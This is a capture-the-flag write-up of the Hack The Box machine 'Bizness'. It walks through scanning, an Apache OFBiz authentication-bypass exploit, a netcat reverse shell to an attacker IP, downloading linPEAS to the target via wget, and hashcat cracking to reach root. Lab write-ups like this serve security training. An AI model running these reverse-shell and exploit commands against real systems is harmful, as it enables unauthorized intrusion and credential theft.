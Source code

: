 ```yaml
---
description: Walkthrough of the HTB machine "Bizness"
cover: >-
  https://images.unsplash.com/photo-1496442226666-8d4d0e62e6e9?crop=entropy&cs=srgb&fm=jpg&ixid=M3wxOTcwMjR8MHwxfHNlYXJjaHwyfHxuZXclMjB5b3JrfGVufDB8fHx8MTcwOTM4NzQzOXww&ixlib=rb-4.0.3&q=85
coverY: 0
---
```


# 👩‍💼 Bizness (10.10.11.252)

## Scanning

Let's start with the usual Nmap scan:

```bash
nmap -T4 -A 10.10.11.252    

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-02 10:59 -03
Nmap scan report for 10.10.11.252
Host is up (0.16s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp  open  http     nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
443/tcp open  ssl/http nginx 1.18.0
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Not valid before: 2023-12-14T20:03:40
|_Not valid after:  2328-11-10T20:03:40
| tls-nextprotoneg: 
|_  http/1.1
| tls-alpn: 
|_  http/1.1
|_http-title: Did not follow redirect to https://bizness.htb/
|_http-server-header: nginx/1.18.0
|_ssl-date: TLS randomness does not represent time
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.59 seconds

```

As we can see, HTTP and HTTPS are opened on the target. However, when we try to access it via a web browser, we're redirected to the domain "_bizness.htb_".

So, we need to put this domain into our /etc/hosts file:

```bash
echo '10.10.11.152 bizness.htb' | sudo tee -a /etc/hosts
```



## Enumeration

As we navigate through the website, we can start up a Directory Busting tool as well as a Subdomain Finder while we analyze the application.

There is a variety of tools we can use for Directory Busting, being: _gobuster, dirbuster, feroxbuster, FFUF_, etc.

In this case, we're going to Directory Bust using _Dirbuster_:

```bash
dirbuster -u https://bizness.htb/ -l /usr/share/seclists/SecLists-master/Discovery/Web-Content/directory-list-2.3-small.txt 

# -u = url
# -l = wordlist
```

<figure><img src="../.gitbook/assets/image (19).png" alt=""><figcaption><p>Dirbuster found a login page</p></figcaption></figure>

<figure><img src="../.gitbook/assets/image (20).png" alt=""><figcaption><p>Login page</p></figcaption></figure>



## Exploitation

Once we found a login page, we can try default credentials or brute-forcing this if we're able. However, first, let's try searching for an exploit for this OFBiz Apache page.

After some research, I found that [CVE-2023-51467](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass) relates to an Authentication Bypass Vulnerability in Apache OFBiz. This CVE exploits a Server-Side Request Forgery (SSRF) vulnerability on the web application. We can download the exploit file and run it on our target:

<figure><img src="../.gitbook/assets/image (21).png" alt=""><figcaption><p>Exploit showing that target is vulnerable</p></figcaption></figure>

Now we can run commands on the target. So we can try to get a Reverse Shell using _Netcat_:

<pre class="language-bash"><code class="lang-bash"><strong>#First, we should open a port with Netcat
</strong><strong>
</strong><strong>rlwrap nc -nvlp 7777
</strong><strong>#rlwrap is used so we can have a better tty shell.
</strong><strong>
</strong><strong>#Next, we should execute the exploit to get the Reverse Shell
</strong><strong>python3 exploit.py --url https://bizness.htb/ --cmd 'nc 10.10.14.19 7777'
</strong></code></pre>

<figure><img src="../.gitbook/assets/image (4) (1).png" alt=""><figcaption><p>Exploit first try</p></figcaption></figure>

However, as we can see here, we aren't getting any responses from the server despite providing commands through Netcat.

We can fix this by adding a `-c bash` to the command:&#x20;

```bash
python3 exploit.py --url https://bizness.htb/ --cmd 'nc -c bash 10.10.14.19 7777'

# -c = specifies shell commands to execute after a connection. In this case, we're specifying we want to use bash
```

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption><p>Exploit Successful</p></figcaption></figure>



### User Flag

From there, we just need to grab the user flag in the "_ofbiz_" home directory:

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption><p>User flag</p></figcaption></figure>

Now, before we do anything else, let's get a full TTY Shell. The best way to do this is using this Python script:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

However, I'm going to leave you [this link](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys) so you can find other ways to get a Full TTY Shell.



## Post Exploitation / Privilege Escalation

We can start by doing some basic enumeration. After that, if we aren't able to find anything from the get-go, we can upload "_linPEAS_" to the target by using the following commands:

<pre class="language-bash"><code class="lang-bash"><strong># On the ATTACKER machine, go to the folder where you have linPEAS (if you're in Kali Linux version 2024.1, it should be in your /opt/linpeas folder:
</strong><strong>
</strong><strong>cd /opt/linpeas
</strong><strong>
</strong><strong>python3 -m http.server 80
</strong><strong>
</strong><strong>
</strong><strong># On the TARGET machine, go to the "tmp" folder, where we usually have write access and download the "linpeas.sh" file using wget:
</strong><strong>
</strong><strong>cd /tmp
</strong><strong>
</strong><strong>wget http://&#x3C;attacker ip>/linpeas.sh
</strong><strong>
</strong><strong># Next, we give the script permission to execute:
</strong><strong>
</strong><strong>chmod +x linpeas.sh
</strong><strong>
</strong><strong># Then, we run the script:
</strong><strong>
</strong><strong>./linpeas.sh
</strong></code></pre>

<figure><img src="../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption><p>Transfering linPEAS to the target machine</p></figcaption></figure>

LinPEAS shows us that there's an executable our user has write access to:

<figure><img src="../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption><p>LinPEAS shows an executable file our low level user has write access to</p></figcaption></figure>

However, we can only abuse this to create a backdoor. [This link](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#services) should provide you with an explanation.

So we'll need to enumerate further.

If we continue our enumeration, we'll be able to find a password in the `c54d0.dat` file located in the `/opt/ofbiz/runtime/data/derby/ofbiz/seg0` directory:

<figure><img src="../.gitbook/assets/image (8) (1).png" alt=""><figcaption><p>SALT part of the hash</p></figcaption></figure>

Now, before we crack this hash, [we'll need to decode the hash](https://www.linkedin.com/pulse/bizness-htb-walkthrough-laith-younes-laith-younes--jtqhe) using [CyberChef](https://gchq.github.io/CyberChef/#recipe=Find\_/\_Replace\(%7B'option':'Regex','string':'\_'%7D,'/',false,false,false,false\)Find\_/\_Replace\(%7B'option':'Regex','string':'-'%7D,'%2B',false,false,false,false\)From\_Base64\('A-Za-z0-9%2B/%3D',false,false\)To\_Hex\('None',0\)\&input=dVAwX1FhVkJwRFdGZW84LWRSekRxUndYUTJJ):

<figure><img src="../.gitbook/assets/image (10) (1).png" alt=""><figcaption><p>Decoded hash</p></figcaption></figure>

So we can use "_hashcat_" with the hash mode of 120 to crack it:

```bash
hashcat -m 120 '<hash>:d' /usr/share/wordlists/rockyou.txt

# -m = mode
```

<figure><img src="../.gitbook/assets/image (11) (1).png" alt=""><figcaption><p>Here's our cracked password</p></figcaption></figure>

###

### Root Flag

Now we just need to switch the user to root and grab the root flag:

<figure><img src="../.gitbook/assets/image (12).png" alt=""><figcaption><p>Root's Flag</p></figcaption></figure>

And this was the CTF!&#x20;

Thank you so much for taking the time to read my WriteUp!

See you in another box!
